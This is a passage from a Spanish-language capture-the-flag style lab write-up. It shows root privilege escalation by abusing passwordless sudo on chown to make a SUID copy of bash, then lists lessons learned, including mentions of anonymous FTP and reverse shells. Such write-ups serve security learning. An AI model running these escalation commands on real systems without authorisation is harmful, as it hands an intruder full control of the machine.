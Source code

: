 Ahora que somos el usuario pingu, repetiremos el mismo proceso anterior primero

```bash
sudo -l
```

Ahora tenemos dos opciones, buscar la manera de escalar usando `nmap` o usando `chown`, obviamente nos conviene toda la vida usar chown, debido a que con este binario nos permite **`cambiar el propietario y/o el grupo de uno o más archivos o directorios.`** por ende podemos cambiar el propietario de al archivo passwd

Primero copiamos la shell 

```bash
cp /bin/bash /tmp/bash-root
```

Luego diremos que el propietario es root

```bash
sudo chown root:root /tmp/bash-root
```

Activaremos el bit SUID

```bash
chmod u+s /tmp/bash-root
```

Y finalmente ejecutamos nuestra copia de la terminal, pero con el bit SUID

```bash
/tmp/bash-root -p
```

Y listo, ahora somos root


## 6. Captura de Bandera

Esta máquina no contiene bandera para capturar.

## 7. Lecciones Aprendidas

- La exposición de servicios mal configurados como FTP anónimo puede dar acceso no autorizado a archivos sensibles.

- Subir y ejecutar una reverse shell es una técnica efectiva para obtener acceso remoto en entornos vulnerables.

- Mejorar una shell básica usando PTYs permite trabajar de forma más cómoda durante la post-explotación.

- Consultar sudo -l es clave para detectar oportunidades de escalada de privilegios.

- Permitir sudo sin contraseña para comandos como chown representa un riesgo crítico de seguridad.

- El uso del bit SUID combinado con binarios controlados permite obtener acceso root completo.

- Errores simples en la configuración de permisos pueden comprometer por completo un sistema.